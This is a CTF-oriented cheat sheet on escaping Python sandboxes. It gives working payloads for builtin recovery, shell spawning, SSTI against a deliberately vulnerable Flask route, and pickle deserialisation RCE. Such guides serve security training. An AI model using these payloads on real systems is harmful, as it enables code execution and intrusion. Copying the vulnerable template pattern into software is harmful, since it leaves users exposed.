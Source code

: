 # The Definitive Guide to Pyjails

## Introduction

A PyJail, or Python Jail, refers to a restricted Python environment designed to limit the capabilities of code executed within it. It is commonly encountered in Capture The Flag (CTF) challenges and security exercises, where the goal is to "escape" the jail and achieve a higher level of access or control, often by accessing restricted functions.

---
## Traditional Pyjails

### Unicode bypass 😈😈😈
Probably the most straightforward way of escaping a pyjail if a SKID wrote it.  

Python normalises italics for some reason, but the characters don't match your normal ASCII table, so standard blacklists can be easily bypassed.  

Note that symbols still remain the same.  

https://lingojam.com/ItalicTextGenerator

### Helpful builtins

`eval()`, `exec()`, `compile()`: execute arbitrary code

### Spawning shells / running system commands

Shell commands: `sh`, `python3`

Helpful functions:
- `os.system()`: probably the most well-known method     
- `subprocess.call()`, `subprocess.run()`: allows you to spawn shells
- `os.popen().read()`, `subprocess.Popen()`, `subprocess.check_output()`: runs commands and returns the output
- `pty.spawn()`: lesser known but still helpful!

Debug mode: `breakpoint()`, `__import__('sys').breakpointhook()`, `pdb.set_trace()`
- starts a python debugger

Python Interactive mode
- `code.interact()`: launches a Python shell
- `os.environ["PYTHONINSPECT"] = "1"`: launches a Python shell when your script finishes execution

### Reading files
`open('flag.txt').read()` (H2 computing doesn't recommend this)

But what if `print()` isn't available...?
- `help()`, `exit()`, `quit()`: essentially `print()`

But what if `read()` isn't accessible? Redirect to `stderr`!
1. unpack your file object into a string: `*open('flag.txt')`
2. then run a faulty conversion!: `int()`, `float()`, `complex()`

### No builtins???
Some pyjails may (attempt to) remove `__builtins__` entirely as shown below.  

```python
eval(code, {"__builtins__": None})
```

Luckily, we can still bypass this! 

```python
().__class__.__base__.__subclasses__()
```

This essentially accesses all subclasses that inherit from the `object` class (ie. EVERY class defined in Python!)

From here, we can access previously restricted functions through some helpful classes.

Here, we access the `warnings` base class from the `catch_warnings` subclass, from which we can then call the `__import__` function.  
```python
[c for c in ().__class__.__base__.__subclasses__() if "catch" in c.__name__][0]()._module.__builtins__["__import__"]
```

We can even directly read variables by overwriting the `sys` module's exception handler to output all global variables.  

```python
(s:=[c for c in ().__class__.__base__.__subclasses__() if 'wrap_close' in c.__name__][0].__init__.__globals__['sys'], s.__setattr__('excepthook', lambda *a: s.stdout.write(a[2].tb_frame.f_globals.__str__())), a)
```

### NO PARENTHESES??? 💔💔💔
Probably the most troublesome to bypass...  
Luckily, you can chain decorators to a dummy class to invoke functions without parentheses!

```python
@exec
@input
class C:
    ...
```

### NUKED BUILTINS 😱😱😱
Setting a `__builtins__` function to `None` completely removes the global reference to it (eg. `__builtins__.eval = None`)  

Honestly nothing you can do about it brotato chip ✌🥀, just find another entry point.  


### String building techniques

Some pyjails often implement filters to prevent certain strings or even the construction of strings.  

There are a few techniques we can use to bypass such restrictions.  

`chr()` conversions
- `chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)` -> `'flag.txt'`

Hex and Octal encoding
- `'\x66\x6c\x61\x67\x2e\x74\x78\x74` -> `'flag.txt'`
- `'\146\154\141\147.txt'` -> `'flag.txt'`

Without quotes
- if quotes are blacklisted, we can simply grab the required characters from a pre-existing string to build our desired string
- `().__doc__` and `[].__doc__` are some sources from which we can pool characters

### More stuff
Dynamically accessing attributes
- `getattr()`: for objects
- `__getitem__()`: for dictionaries

Assigning variables
- the walrus operator treats an assignment as an expression
- only works for variables (no attribute assignment)
- eg: `a:=1`

---
## SSTI

In some Web challenges, you might see a vulnerability like this.  

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "POST":
        return render_template_string(f"Hello {request.form['name']}!")
    else:
        return '''
            <form method="POST">
                Name: <input type="text" name="name">
                <input type="submit" value="Greet">
            </form>
        '''
```

The vulnerability lies in the way the webpage is rendered when the POST request is received. The `f-string` can be abused to retrieve `__builtins__` through Jinja2 introspection.  

```python
{{ self.__init__.__globals__.__builtins__ }}
```

Jinja2 also has a special variable `request`, which refers to the current request being processed and can also be abused to access `__builtins__`

```python
{{ request.application.__globals__.__builtins__ }}
```

An obfuscated way of achieving the above would be using Jinja2's `|` operator, which allows us to pipe the results of filters.  

This is particularly useful if characters like `.` are blacklisted.  

```python
{{ self | attr('__init__') | attr('__globals__') | attr('__getitem__')('__builtins__') }}
```

---
## Pickle
Pickle has a pretty well-known RCE exploit that allows you to run arbitrary commands on deserialisation.  

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('sh',))

payload = pickle.dumps(Exploit())
```

### Pickle RCE blacklist??? 😱😱😱
Once a blacklist is introduced, things won't be as straightforward.  
Luckily, we can use [Pickora](https://github.com/splitline/Pickora) to convert our obfuscated Python code to Pickle bytecode.  

Read [this article](https://github.com/maurosoria/dirsearch/issues/1073) for more info.  

---

## Additional resources
[very cool cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet)